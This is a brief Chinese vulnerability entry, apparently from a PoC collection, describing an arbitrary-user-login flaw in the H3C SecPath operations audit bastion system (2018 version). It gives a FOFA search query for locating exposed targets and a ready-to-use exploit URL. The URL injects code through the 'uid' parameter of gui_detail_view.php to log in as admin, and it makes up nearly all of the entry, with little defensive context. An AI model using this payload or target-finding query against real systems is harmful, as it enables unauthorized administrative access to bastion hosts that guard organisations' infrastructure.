 # H3C-SecPath-运维审计系统(堡垒机)任意用户登录

H3C SecPath 运维审计系统是基于用户现阶段面临的运维难题提出的一款运维风险管控产品。攻击者可通过输入特殊 url，达到任意用户登录的目的。

FOFA：

`app="H3C-SecPath-运维审计系统"`

影响版本：
2018

PoC:

```
http://target/audit/gui_detail_view.php?token=1&id=%5C&uid=%2Cchr(97))%20or%201:%20print%20chr(121)%2bchr(101)%2bchr(115)%0d%0a%23&login=admin
```

ref：

https://nox.qianxin.com/vulnerability/detail/97202